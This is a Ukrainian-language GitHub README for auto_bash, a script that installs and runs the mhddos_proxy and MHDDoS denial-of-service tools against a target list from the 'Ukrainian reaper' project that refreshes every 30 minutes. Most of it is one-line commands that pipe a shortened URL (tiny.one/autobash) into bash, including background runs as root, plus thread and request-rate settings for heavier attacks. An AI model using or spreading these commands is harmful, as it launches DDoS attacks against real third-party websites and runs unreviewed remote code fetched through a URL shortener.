 ## 🪖 Bash скрипт (Windows, Linux, WSL2, Віртуальна машина)  

## ❕Опис

### auto_bash - скрипт на bash, що керує [mhddos_proxy](https://github.com/porthole-ascend-cinnamon/mhddos_proxy)

* Запускається однією командою в Linux і WSL2 (Windows Subsystem for Linux). Подальше втручання від користувача не обов'язкове. 
 
```
curl -L tiny.one/autobash | bash
```
* Автоматично встановлює git, python3, pip, mhddos_proxy, MHDDoS, розширений список proxy і всі залежності.

* Праюцює із базою сайтів [Українського женця](https://github.com/Aruiem234/auto_mhddos/blob/main/runner_targets).

* База цілей оновлюється кожні 30 хвилин.

* Під час запуску завжди перевіряє і завантажує оновлення mhddos_proxy і MHDDoS.

Рекомендовано використовувати на Ubuntu 20.04+ або Debian 11+. Але повинно працювати на всіх Debian похідних, наприклад Kali, а також у WSL2.

Для зупинки скрипта закрийте вікно з терміналом.

## ❕Запуск у фоні
Виконувати як root. Інакше скрипт спитає пароль у фоні і ви не зможете його ввести.

```
curl -L tiny.one/autobash | nohup bash &
```
Після цього термінал можна зачиняти і скрипт продовжить працювати в фоні.

Щоб почитати вивід скрипта, навіть після того, як він відправлений в фон:
```
tail -f -n 100 nohup.out
```

## ❕Зміна інтенсивності

Якщо скрипт дуже уповільнює ПК, або навпаки ви маєте невикористані ресурси, можна понизити, або навпаки підвищіти інтенсивність роботи скрипта. Для цього треба керувати параметром `threads`. По замовчуванню `threads = 1000`. Значення потрібно підбирати індивідуально, цифри нижче лише для прикладу. В більшості випадків рекомендується не змінювати значення параметру і використовувати команду по замовчуванню.

Щоб знизити навантаження на систему, спробуйте використати `threads = 500`

```
curl -L tiny.one/autobash | bash -s -- 500
```

Щоб навантажити систему більше, спробуйте використати `threads = 2000`

```
curl -L tiny.one/autobash | bash -s -- 4000
```


## ❕ Передача параметрів (бета версія)
```
curl -L tiny.one/autobash-test | bash -s -- -t 1000 -r 2000 -k 1 --table
```

`-t 1000` - 1000 тредів

`-r 2000` - 2000 rpc

`-k 1` - kill 1 hour. Завершити скрипт через 1 годину роботи

`--table` - увімкнути режим відображення данних в таблиці


## Зупинка скрипту

1. Або просто зачинити термінал (якщо не використовується nohup).

2. Або в іншому терміналі виконати `pkill -f start.py; pkill -f runner.py` а потім натиснути CTRL+C у терміналі з скриптом.

## Запуск на Windows у powershell.

Потрібна лише Windows 7 або вище. Усе інше скрипт зробить самостійно.

https://github.com/mErlin-sp/mhddos_powershell

## Встановлення на Windows.

[Инструкція по встановленнию Python3 і Git на Windows](https://telegra.ph/Vstanovlennya-mhddos-proxy-napryamu-na-vash-komp-03-27). Не тестувалось на сумісність з auto_bash. Не сумісно, якщо було зроблено "Запуск на Windows у powershell". Дозволяє як мінімум запускати mhddos_proxy командами які надаються в каналі [українського женця](https://t.me/ukrainian_reaper_ddos). У випадку помилок можна написати по координатах, залишених в кінці інструкції.
